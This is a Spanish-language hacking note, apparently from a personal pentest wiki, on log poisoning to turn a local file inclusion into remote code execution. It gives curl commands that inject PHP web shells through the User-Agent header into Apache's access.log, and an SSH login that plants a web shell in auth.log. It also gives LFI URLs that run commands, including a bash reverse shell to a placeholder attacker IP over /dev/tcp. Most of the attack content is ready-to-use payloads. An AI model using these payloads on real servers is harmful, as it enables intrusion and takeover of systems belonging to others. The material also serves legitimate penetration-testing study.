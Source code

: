 # Log Poisoning (LFI -- RCE)

***

* Tags: #web #hacking #LFI #RCE #exploiting

***

## Definición

> El **Log Poisoning** es una técnica de ataque donde los registros del sistema se manipulan insertando información falsa o maliciosa. Esto distorsiona la percepción de los eventos, puede ocultar actividades maliciosas y llevar a decisiones incorrectas basadas en registros comprometidos. Esta técnica se suele utilizar junto a la vulnerabilidad de \[\[LFI (Local File Inclusion)]] para lograr una \[\[RCE (Remote Command Execution)]] en el servidor.
>
> Se puede utilizar esta técnica sobre archivos que seamos capaces de visualizar en la página web, y que además podamos modificarlos para introducir código malicioso, como los registros del servidor de **apache2**, los registros de **ssh** o el servicio de **SMTP** de correo electrónico.

***

## Apache logs

El archivo que se suele envenenar cuando se está utilizando apache, es el **access.log** , que está ubicado en la ruta **/var/log/apache2/access.log**. A través del **LFI**, podríamos poder visualizar el contenido del archivo si el usuario tuviera acceso del mismo, de manera que podemos envenenarlo incluyendo código **php**.

En dicho registro, hay una columna específica para mostrar la cabecera de **User-Agent** de cada solicitud que ha recibido el servidor web, por lo que si hacemos una petición modificando la cabecera, concretamente la de **User-Agent**, podemos inyectar código malicioso en **php**. Para ello podemos hacer uso del siguiente comando en **bash**:

```bash
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php system('whoami'); ?>"

#Para poder ver qué funciones de php están deshabilitadas en el servidor
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php phpinfo(); ?>"
```

Podemos hacerlo de manera general, para ir modificando la **URL** para ir cambiando el comando deseado:

```bash
curl -s -X GET "http://<IP_VICTIMA>/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

Y a la para ejecutar el comando, añadimos a la URL lo siguiente:

```
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=whoami
```

Para conseguir una \[\[Reverse shell]] podemos añadir lo siguiente:

```
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATACANTE>/<PUERTO> 0>%261"
```

***

## SSH logs

El archivo que se puede envenenar es **auth.log**, alojado en la ruta **/var/log/auth.log**, aunque el archivo también puede tener el nombre de **btmp** y encontrarse en el mismo directorio.

En el log, podemos visualizar errores de conexión de **SSH**, de manera que si se ha introducido un usuario o contraseña erróneo, será reflejado en el log. Esto nos es útil en el caso en el que podamos ver el output de este archivo en el servicio web, de manera que lo podemos envenenar de la siguiente manera:

```bash
ssh '<?php system(\$_GET['cmd']); ?>'@<IP_VICTIMA>
```

Y podemos ejecutar el comando que queramos utilizando **LFI**, de la siguiente manera:

```
http://<IP_VICTIMA>/index.php?filename=/var/log/auth.log&cmd=whoami

#Para una reverse shell
http://<IP_VICTIMA>/index.php?filename=var/log/apache2/access.log&cmd=bash -c "bash -i >%26 /dev/tcp/<IP_ATACANTE>/<PUERTO> 0>%261"
```
